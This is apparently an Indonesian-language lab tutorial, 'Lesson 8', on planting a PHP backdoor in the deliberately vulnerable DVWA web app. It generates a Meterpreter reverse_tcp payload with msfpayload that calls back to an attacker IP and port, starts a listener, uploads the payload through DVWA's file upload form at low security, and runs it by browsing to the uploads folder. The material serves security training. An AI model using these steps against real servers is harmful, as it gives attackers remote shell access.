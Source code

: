 # Lesson 8: Upload PHP Backdoor Payload

1. Di metasploit, buka terminal dan jalankan perintah-perintah berikut

```
chown root:www-data /var/www/dvwa/hackable/uploads/
chmod 775 /var/www/dvwa/hackable/uploads/
ls -ld /var/www/dvwa/hackable/uploads/
```
![Gambar](image/42-lessson8.PNG)

2. Membuat msfpayload

```
mkdir -p /root/backdoor
cd /root/backdoor
msfpayload php/meterpreter/reverse_tcp LHOST=10.151.252.225 LPORT=4444 R > PHONE_HOME.php
ls -l PHONE_HOME.php
```
![Gambar](image/43-phone.PNG)

3. Edit file PHONE_HOME.php dan hilangkan tanda pagar "#" dibaris pertama
![Gambar](image/44-isi-home.PNG)

4. Jalankan perintah berikut
```
msfconsole
```
![Gambar](image/45-metasploit.PNG)

5. Menjalankan PHP Listener seperti perintah berikut.

![Gambar](image/46-exploit.PNG)

6. Buka firefox dan akses halaman dvwa.

7. Setelah login, masuk ke  DVWA security, atur ke low

8. Klik tab Upload, akan muncul form untuk mengupload file.

9. Upload file PHONE_HOME.php tadi, dengan cara : file system/root/backdoor/
![Gambar](image/47-uploads.PNG)

10. Aktifkan file php tadi dengan mengakses halaman http://10.0.1.100/dvwa/hackable/uploads/




